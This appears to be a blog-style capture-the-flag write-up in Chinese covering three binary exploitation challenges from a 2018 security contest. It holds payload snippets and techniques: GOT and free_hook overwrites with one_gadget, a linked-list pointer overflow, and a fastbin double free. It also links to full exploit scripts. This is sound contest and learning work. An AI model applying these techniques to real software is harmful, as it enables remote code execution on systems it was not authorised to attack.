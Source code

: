 2018西普杯全国高校信息安全铁人三项大赛-河南赛区个人赛出了三道pwn,简单做了一下，在这里分享一下我的做题记录以及思路。

题目下载地址：https://github.com/moonAgirl/CTF/tree/master/2018/TieRan/HN

# brain-stack

程序提供了四个命令

	> : tape_ptr 地址减一
	< : tape_ptr 地址加一
	R : 读取tape_ptr 地址保存的四个字节
	W : 往tape_ptr 地址处写入四个字节

这里能想到两个思路：

## 思路一

先将tape_ptr一直减，减到got段区

![](./Images/HN/1.1.png)

再利用R命令泄露libc地址，因为题目提供了libc，就可以计算出所需要的符号地址，我这里是通过计算one_gadgets地址

one_gadgets项目地址：https://github.com/david942j/one_gadget

one_gadgets使用命令：

	$ one_gadget ./libc32
	0x3a80c	execve("/bin/sh", esp+0x28, environ)
	constraints:
	  esi is the GOT address of libc
	  [esp+0x28] == NULL
	
	0x3a80e	execve("/bin/sh", esp+0x2c, environ)
	constraints:
	  esi is the GOT address of libc
	  [esp+0x2c] == NULL
	
	0x3a812	execve("/bin/sh", esp+0x30, environ)
	constraints:
	  esi is the GOT address of libc
	  [esp+0x30] == NULL
	
	0x3a819	execve("/bin/sh", esp+0x34, environ)
	constraints:
	  esi is the GOT address of libc
	  [esp+0x34] == NULL
	
	0x5f065	execl("/bin/sh", eax)
	constraints:
	  esi is the GOT address of libc
	  eax == NULL
	
	0x5f066	execl("/bin/sh", [esp])
	constraints:
	  esi is the GOT address of libc
	  [esp] == NULL

之后利用W命令将one_gadgets写入got，我选择写入write_got,写入以后，再之后调用write函数时就相当于调用one_gadget.get shell!.

脚本地址：https://github.com/moonAgirl/CTF/blob/master/2018/TieRan/HN/brain-stack/brain-stack1.py

## 思路二

程序中将栈地址保存进了bss段

![](./Images/HN/1.2.png)

我们将libc泄露，计算one_gadget.再泄露栈地址，计算函数返回地址

再利用<命令一直减到返回地址，将返回地址覆盖为one_gadgets.那么在函数返回时即可get shell.

脚本地址：https://github.com/moonAgirl/CTF/blob/master/2018/TieRan/HN/brain-stack/brain-stack2.py

这题和pwnbale.kr上的一道题brainfuck很相似，大家可以去看一下

# game4

这题采用单链表形式存储申请的node，相关结构体如下：

	t_node	struct {
		fn_cleanup cleanup; 
		t_node *next;
		t_entry entry;
	}
	
	t_entry	struct {
		char name[32];
		char phone_number[16];
	}

漏洞点在于编辑name和phone时可以有机会覆盖下一结构的内容

![](./Images/HN/1.3.png)

![](./Images/HN/1.4.png)

那么我们先申请两个节点

	add('aaaa','1111')#1
	add('bbbb','2222')#2

通过第一个节点将第二个节点的next域改写为got段地址

	payload = 'Y'*(16 + 16 + 8) + '\xe8\x1f\x60'
	edit(1,'cccc',payload)

这样我们就伪造了第三个节点，下面我们输出三号节点的内容就可以泄露libc地址，进而计算相关符号地址

之后故技重施，通过第一个节点将第二个节点的next域改写为free_hook地址

	payload = 'Y'*(16 + 16 + 8) + chr(int(a1,16))+chr(int(a2,16))+chr(int(a3,16))+chr(int(a4,16))+chr(int(a5,16))+chr(int(a6,16))
	edit(1,'cccc',payload)

之后编辑三号node就可以往free_hook地址处写，我们写入one_gadget,这样在调用free函数时就可以get shell.

脚本地址：https://github.com/moonAgirl/CTF/blob/master/2018/TieRan/HN/game4/ctf.py

# xueba

这题开启了所有保护，并且程序段也开启了随机化。

![](./Images/HN/1.5.png)

这题我尝试了两个思路，第一个失败了

## 思路一(失败）

因为程序在free之后没有清空指针，造成uaf

![](./Images/HN/1.6.png)

所以这里我先申请两个堆块，再将它们释放，再申请一块堆，新申请的堆是前边两个堆框大小的和，这样就可以控制前边两个堆块的内容

我们再堆中构造一个fake_chunk，再释放之前释放的2号堆，就可以通过unlink，之后就是套路了。

可是这里开启了程序段随机化，我不知道bss段地址，无法获取保存堆地址的bss地址，因此思路一失败。

## 思路二(成功）

思路一失败之后，我开始把目光转向fastbin attack.调试了一番发现可行

	add(0x60,'a'*0x10 + '\x01','1'*0x28)#1
	add(0x60,'a'*0x8 + 'b','1'*0x28)#3
	
	remove(1)
	remove(3)
	edit(1,'\x00\x01')
	remove(1)

如上代码所示，先申请两块0x60大小的堆块，再利用double free在fastbin里造成loop chunk.
	
	off = 0x7fa069cfab10 - 0x7fa069cfaaf5
	addr = data - 0x68 - off
	
	add(0x60,'a'*8,p64(addr - 8))#1
	add(0x60,'a'*8,p64(addr - 8))#3
	add(0x60,'a'*8,p64(addr - 8))#4
	print 'one_gadget:' + hex(libc_base + 0x4526a)
	padd = 0x7fa069cfab10 - (0x7fa069cfaaf5 + 8)
	add(0x60,'a'*8,'a'*padd + p64(libc_base + 0x4526a))#4

如上代码所示，我先申请了一块堆块并将该堆块的fd域覆盖为free_hook对应的地址，这样在之后的fastbin申请中我们可以申请到free_hook地址处的内存，并对free_hook进行写入，我么依旧写入one_gadget.

这样在调用free函数时就可以get shell.

脚本地址：https://github.com/moonAgirl/CTF/blob/master/2018/TieRan/HN/xueba/xueba.py

# 总结

总的来说这几个题目不算难，因为今年也参加了铁人三项，所以在吾爱破解上看到有人分享题目就下载下来做了一下。希望我自己比赛的时候可以发挥好一点。

相关链接：https://www.52pojie.cn/thread-735986-1-1.html






